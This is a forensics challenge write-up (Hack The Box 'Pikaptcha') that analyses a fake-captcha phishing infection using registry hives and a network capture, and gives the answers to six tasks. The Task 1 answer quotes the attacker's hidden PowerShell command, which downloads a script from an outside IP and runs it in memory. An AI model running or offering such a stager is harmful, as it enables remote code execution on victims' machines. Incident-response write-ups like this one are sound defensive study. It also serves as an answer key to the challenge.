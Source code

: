 # Pikaptcha

![Screenshot0](./screenshots/Pikaptcha.png)

## Table of Contents

- [Sherlock Scenario](#Sherlock-Scenario)
- [Evidences](#Evidences)
- [Tasks](#Tasks)
    - [Task 1](#Task-1)
    - [Task 2](#Task-2)
    - [Task 3](#Task-3)
    - [Task 4](#Task-4)
    - [Task 5](#Task-5)
    - [Task 6](#Task-6)
- [Conclusion](#Conclusion)

<br>
<br>

## Sherlock Scenario
> Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.

<br>
<br>

## Evidences

In this Sherlock, we were given a network capture file called `pikaptcha.pcapng` and a zip archive with backups from a Windows operating system with the paths `C:\Users` and `C:\Windows`.

<br>
<br>

## Tasks

### Task 1
> It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

__Answer:__ `powershell -NOP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`

To analyze the registry hive of the user Grunewald, I went to his home directory of the backup and used the tool regripper to parse the NTUSER.DAT and search for PowerShell activities.

__Command:__ `regripper -r NTUSER.DAT -f ntuser`

<br>

![Screenshot1](./screenshots/Task1.png)

Here we see the PowerShell download activity in the RunMRU key.

<br>

### Task 2
> At what time in UTC did the malicious payload execute?

__Answer:__ `2024-09-23 05:07:45`

The payload was executed at `2024-09-23 05:07:45`.

<br>

### Task 3
> The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

__Answer:__ `579284442094E1A44BEA9CFB7D8D794C8977714F827C97BCB2822A97742914DE`

Now that I had the IP, I turned my attention to the network recording file.

Filtered by the IP address, I first looked at where in the recording the first frame with the retrieval of the file takes place.

In the frame no. `148881` we can see the download.

![ScreenshotTask3_1](./screenshots/task3_1.PNG)


Under `File` -> `Export` -> `HTTP...` I exported the downloaded script and retrieved the hash.

![ScreenshotTask3_2](./screenshots/Task3_2.png)

![ScreenshotTask3_3](./screenshots/Task3_3.png)

<br>

### Task 4
> To which port did the reverse shell connect?

__Answer:__ `6969`

To do this, I decoded the Powershell code from the downloaded script.

The attacker connects back to his server via port 6969.

In the network capture, this communication starts at frame no. `149239`.

![ScreenshotTask4_1](./screenshots/Task4_1.png)


<br>

### Task 5
> For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

__Answer:__ `403`

To do this, we subtract the time of the end frame no. `480663` and the start frame no. `149239` and arrive at `403` seconds.

<br>

![ScreenshotTask5](./screenshots/5.png)

<br>

### Task 6
> Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

__Answer:__ `stageClipboard`

Now I searched the network capture specifically for website calls.

And in the source code was the Javascript function I was looking for, which brings the malicious payload into the victim's clipboard.

![ScreenshotTask61](./screenshots/Task6_1.png)

![ScreenshotTask62](./screenshots/Task6_2.PNG)

<br>


## Conclusion

A fun Sherlock.

It took me a while to get started as I didn't quite know where to start looking.

The biggest takeaway from this Sherlock was to familiarize myself more with the `regripper` tool, which I had never used before.

